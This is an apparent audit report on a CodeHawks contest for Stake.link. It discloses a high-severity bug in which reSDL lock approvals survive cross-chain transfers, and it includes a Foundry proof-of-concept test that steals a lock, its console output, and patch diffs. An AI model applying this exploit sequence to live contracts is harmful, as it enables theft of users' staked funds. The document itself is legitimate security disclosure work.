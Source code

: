 # Stakelink

Code under review: [2023-12-stakelink](https://github.com/Cyfrin/2023-12-stake-link) (1414 nSLOC)

Contest page: [stakelink-contest](https://www.codehawks.com/contests/clqf7mgla0001yeyfah59c674)

Placement: #11

## [H-01] Token approvals are not revoked when transferring reSDL across chains, leading to stolen funds.
>The official submission can be found on codehawks [here](https://www.codehawks.com/submissions/clqf7mgla0001yeyfah59c674/82)

### Summary
reSDL token approvals are not deleted when transferring reSDL cross-chain, allowing previously approved users to steal a reSDL lock once it's been transferred back to the original chain. 

### Vulnerability Details
Transferring reSDL locks between users is supposed to delete the approvals for that lockId, as new owners likely do not want the previously approved people to still be approved to their lock. This is evident in the NATSPEC of the function `SDLPool::approve`
<details>
<summary>NATSPEC of SDLPool::approve()</summary>

```javascript
    /**
     * @notice approves `_to` to transfer `_lockId` to another address
     * @dev
---> * - approval is revoked on transfer and can also be revoked by approving zero address
     * - reverts if sender is not owner of lock and not an approved operator for the owner
     * - reverts if `_to` is owner of lock
     * - reverts if `_lockId` is invalid
     * @param _to address approved to transfer
     * @param _lockId id of lock
     **/
```
</details>

The above requirement is properly enforced in the `SDLPool::_transfer()` internal function, due to the line:

```delete tokenApprovals[_lockId]```
(Line 464 of SDLPool.sol)

However, the requirement is not held when transferring reSDL tokens cross-chain.

When a user calls `RESDLTokenBridge::transferRESDL` to send a reSDL lock to the secondary chain, 
In `SDLPoolPrimary::handleOutgoingRESDL`, the token approvals for the lock `_lockId` are not deleted.
<details> 
<summary>Code</summary>

```javascript 
    Lock memory lock = locks[_lockId];

    delete locks[_lockId].amount;
    delete lockOwners[_lockId];
    balances[_sender] -= 1;
    // [H] @audit - what about token approvals?
    // The token approvals for reSDL are not deleted when we use the bridge to send reSDL to another chain!

    uint256 totalAmount = lock.amount + lock.boostAmount;
    effectiveBalances[_sender] -= totalAmount;
    effectiveBalances[ccipController] += totalAmount;

    sdlToken.safeTransfer(_sdlReceiver, lock.amount);

    emit OutgoingRESDL(_sender, _lockId);    
```
</details>

Similarly in `SDLPoolSecondary::handleOutgoingRESDL`, tokenApprovals are not deleted on sending reSDL back to the primary chain.

Note that how much ever the lock is transferred in the other chain, the approvals in that chain will constantly be deleted, but the approvals in the original chain remain intact.

### Impact

Since the approvals are not deleted whenever the reSDL token is transferred over to a different chain, the approval will still exist when the token is transferred back to the original chain. Once this happens, the approved user can transfer the lock to themselves, since they have approval to that lockId.

### Proof of Concept

**Summary:**

The following is one example of how the vulnerability can be exploited.

Initial State: initialOwner owns the lock with lockId=1 (the lockId is arbitrary, the vulnerability exists for every lockId possible).

Steps:

1. A user (initialOwner) approves their alt account (initialOwner_Alt), before transferring their reSDL lock to another user (receiverOfLock) on secondary chain
2. The user who just received it on the secondary chain transfers the lock to someone else (otherReceiverOfLock), this only deletes approvals on the secondary chain
3. The otherReceiverOfLock transfers their lock back to the primary chain, with the receiver being their own address.
4. initialOwner_Alt who is still approved calls `primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);` to transfer the lock back to themselves.
 
> Note that the following foundry test may not be immediately runnable on any machine, as it uses a few custom mocks that bypass the need for CCIP but mimic the functionality of the protocol. 

<details><summary>Setting up</summary>

```javascript
contract YourTestContract is Test {

    struct OnRamp {
        uint64 destChainSelector;
        address onRamp;
    }
    struct OffRamp {
        uint64 sourceChainSelector;
        address offRamp;
    }

    uint64 primaryChainSelector = 77;
    uint64 secondaryChainSelector = 78;

    ERC677Token linkToken;
    ERC677Token sdlToken;
    ERC677Token token2;
    WrappedNative wrappedNative;
    LinearBoostController boostController;

    SDLPoolPrimary primarySDL;
    SDLPoolSecondary secondarySDL;

    CCIPTokenPoolMock tokenPool;
    CCIPTokenPoolMock tokenPool2;

    MockRESDLTokenBridge bridgePrimary;
    MockRESDLTokenBridge bridgeSecondary;

    // USERS
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address user3 = makeAddr("3");

    function setUp() public {
        // Deploy ERC677 tokens

        address starterMaster = makeAddr("starterMaster"); // he gets all the supply @ the start
        linkToken = new ERC677Token("Chainlink", "LINK", starterMaster, 1000000000);
        sdlToken = new ERC677Token("SDLName", "SDL", starterMaster, 1000000000);
        token2 = new ERC677Token("Token2", "T2", starterMaster, 1000000000);

        // Deploy other contracts
        wrappedNative = new WrappedNative();
        address armProxy = address(new CCIPArmProxyMock());
        address router = address(new Router(address(wrappedNative), armProxy));


        // TokenPool
        tokenPool = new CCIPTokenPoolMock(address(sdlToken));
        tokenPool2 = new CCIPTokenPoolMock(address(token2));

        address[] memory tokens = new address[](2);
        tokens[0] = address(sdlToken);
        tokens[1] = address(token2);
        address[] memory tokenPools = new address[](2);
        tokenPools[0] = address(tokenPool);
        tokenPools[1] = address(tokenPool2);

        boostController = new LinearBoostController(4 * 365 * 86400, 4);
        
        SDLPoolPrimary primarySDLImplementation = new SDLPoolPrimary();
        SDLPoolSecondary secondarySDLImplementation = new SDLPoolSecondary();
        
        // make proxies
        ERC1967Proxy proxyPrimary = new ERC1967Proxy(address(primarySDLImplementation), "");
        ERC1967Proxy proxySecondary = new ERC1967Proxy(address(secondarySDLImplementation), "");

        // Interface at the proxy address
        primarySDL = SDLPoolPrimary(address(proxyPrimary));
        secondarySDL = SDLPoolSecondary(address(proxySecondary));

        //initialize the implementations
        primarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController));
        secondarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController), 5);
        
        //Pool Controllers
        MockPrimaryController primaryController = new MockPrimaryController(router, address(linkToken), address(sdlToken), address(primarySDL), 10 ether);
        MockSecondaryController secondaryController = new MockSecondaryController(router, address(linkToken), address(sdlToken), address(secondarySDL), 77, makeAddr("4"), 10 ether, '0x');

        // Bridges
        bridgePrimary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(primarySDL), address(primaryController));
        bridgeSecondary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(secondarySDL), address(secondaryController));

        // Setting up primary side
        primaryController.setRESDLTokenBridge(address(bridgePrimary));
        primarySDL.setCCIPController(address(primaryController));

        vm.prank(address(bridgePrimary));
        linkToken.approve(address(bridgePrimary), type(uint256).max);

        bridgePrimary.setExtraArgs(77, '0x11');
        primaryController.addWhitelistedChain(77, user1, '0x', '0x');
        sdlToken.mint(user2, 2000 ether);

        // Setting up secondary side
        secondaryController.setRESDLTokenBridge(address(bridgeSecondary));
        secondarySDL.setCCIPController(address(secondaryController));

        
        // Creating 2 different locks in the primary pool
        vm.startPrank(user2);
        sdlToken.transferAndCall(
        address(primarySDL),
        200 ether,
        abi.encode(uint256(0), uint64(0)));


        sdlToken.transferAndCall(
        address(primarySDL),
        1000 ether,
        abi.encode(uint256(0), uint64(365 * 86400)));

        vm.stopPrank();
    }
}
```
</details>
<details>
<summary>Proof of Code</summary>

```javascript
function test_POC_ApprovalsNotDeleted() public {
    // This shows that approvals in one chain are not deleted when a lock is sent to another chain

    address initialOwner = makeAddr("2");
    address receiverOfLock = makeAddr("3");

    address initialOwner_Alt = makeAddr("2Alt");

    vm.startPrank(initialOwner);
    // Approve the alt account
    primarySDL.approve(initialOwner_Alt, 1);

    // Log the approvals of lockId=1
    address approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    console2.log("SENDING LOCK TO SECONDARY CHAIN\n");
    bridgePrimary.transferRESDL(78, address(bridgeSecondary), receiverOfLock, 1, false);
    vm.stopPrank();

    // Now transfer the lock in the secondary chain
    address otherReceiverOfLock = makeAddr("4");
    vm.startPrank(receiverOfLock);
    console2.log("TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN\n");

    // This deletes the approvals of the lock, but only in the secondary chain
    secondarySDL.transferFrom(receiverOfLock, otherReceiverOfLock, 1);
    vm.stopPrank();
    assertEq(secondarySDL.ownerOf(1), otherReceiverOfLock);

    // Then send it back to themselves on the primary chain
    vm.startPrank(otherReceiverOfLock);
    console2.log("SENDING LOCK BACK TO PRIMARY CHAIN\n");
    bridgeSecondary.transferRESDL(77, address(bridgePrimary), otherReceiverOfLock, 1, false);
    vm.stopPrank();

    // Check that the approvals are still there
    approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    // Check that `otherReceiverOfLock` is still the owner of the lock
    uint256[] memory lockIds = primarySDL.getLockIdsByOwner(otherReceiverOfLock);
    assertEq(lockIds[0], 1);

    // Check that og owner's alt account can transfer it to themselves
    vm.startPrank(initialOwner_Alt);
    console2.log("USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`");
    primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);
    vm.stopPrank();

    // Check that the alt account now owns the lock with lockId=1, effectively stolen from `otherReceiverOfLock`
    lockIds = primarySDL.getLockIdsByOwner(initialOwner_Alt);
    assertEq(lockIds[0], 1);

    console2.log("New owner of lockId=1: %s", primarySDL.ownerOf(1));
}
```
</details>

<details>
<summary> Console Output </summary>

```zsh
Running 1 test for test/PoC/Proofs.t.sol:YourTestContract
[PASS] test_POC_ApprovalsNotDeleted() (gas: 489600)
Logs:
  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  SENDING LOCK TO SECONDARY CHAIN

  TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN

  SENDING LOCK BACK TO PRIMARY CHAIN

  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`
  New owner of lockId=1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.33ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details> 

### Tools Used
Manual Review

### Recommendations
Delete the token approvals whenever reSDL tokens are transferred to another chain.
This will ensure that approved users dont have the ability to transfer reSDL tokens once the tokens have been transferred cross-chain.

In `SDLPoolPrimary::handleOutgoingRESDL`:
<details><summary>SDLPoolPrimary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    )
        external
        onlyCCIPController
        onlyLockOwner(_lockId, _sender)
        updateRewards(_sender)
        updateRewards(ccipController)
        returns (Lock memory)
    {
        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount; 
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;


        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        effectiveBalances[ccipController] += totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount); // @audit - _sdlReceiver is the address of the CCIPController.

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```
</details>

Similarly, in `SDLPoolSecondary::handleOutgoingRESDL`:
<details><summary>SDLPoolSecondary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    ) external onlyCCIPController onlyLockOwner(_lockId, _sender) updateRewards(_sender) returns (Lock memory) {
        if (queuedLockUpdates[_lockId].length != 0) revert CannotTransferWithQueuedUpdates();

        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount;
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;

        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        totalEffectiveBalance -= totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount);

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```

</details>
		
